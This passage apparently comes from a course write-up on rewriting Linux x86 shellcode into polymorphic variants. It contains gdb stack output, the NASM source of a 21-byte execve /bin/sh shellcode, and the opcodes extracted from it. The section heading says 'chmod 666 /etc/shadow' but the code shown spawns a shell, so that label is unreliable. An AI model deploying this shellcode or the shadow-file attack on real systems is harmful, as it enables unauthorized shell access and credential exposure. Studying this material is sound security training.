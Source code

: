 ~~~ nasm
fs             0x0	0
gs             0x0	0
(gdb) x/16bx 0xbffff700
0xbffff700:	0x2f	0x2f	0x65	0x74	0x63	0x2f	0x73	0x68
0xbffff708:	0x61	0x64	0x6f	0x77	0x00	0x00	0x00	0x00
(gdb)
~~~

After comparing the state of the general purpose registers and values on the stack in both the original shellcode and the polymorphic shellcode, it is evident that all replaced instructions are semantically equivalent and the functionality of the original shellcode is preserved.

In addition, the size of the original shellcode is 27 bytes. The size of the polymorphic shellcode is 40 bytes, meeting the size restrictions set by SecurityTube.

### Shellcode 3 - chmod 666 /etc/shadow
The author of the original shellcode is "kernel_panik". The code can be found <a href="http://shell-storm.org/shellcode/files/shellcode-752.php">here</a>.

#### Original Shellcode

~~~ nasm
;Title: linux/x86 Shellcode execve ("/bin/sh") - 21 Bytes
;Date     : 10 Feb 2011
;Author   : kernel_panik
;Thanks   : cOokie, agix, antrhacks

global _start

section .text

_start:
 xor ecx, ecx
 mul ecx
 push ecx
 push 0x68732f2f   ;; hs//
 push 0x6e69622f   ;; nib/
 mov ebx, esp
 mov al, 11
 int 0x80
~~~

#### Compiling the Original Shellcode

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh execve-bin-sh-stack-original
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
[+] Size: 21 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
~~~
